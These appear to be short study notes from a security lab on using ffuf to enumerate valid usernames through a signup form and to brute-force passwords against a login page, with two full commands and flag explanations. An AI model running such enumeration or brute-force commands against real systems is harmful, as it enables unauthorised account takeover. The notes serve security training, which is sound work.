 - can be used to bruteforce usernames
Ex: 
```shell-session
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"
```
- -w: specify word list
- -X: specify HTTP method
- -u: specify url
	- use of `FUZZ` to specify where the usernames must be added in the request
- -mr: text we are looking for on the page to know we have found a user

- can be used to perform password bruteforce attacks:
Ex: 
```shell-session
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
```
- use of `W1` and `W2` to specify where the usernames and passwords must be added in the URL, see patern on -w
- -fc used to know we have a match
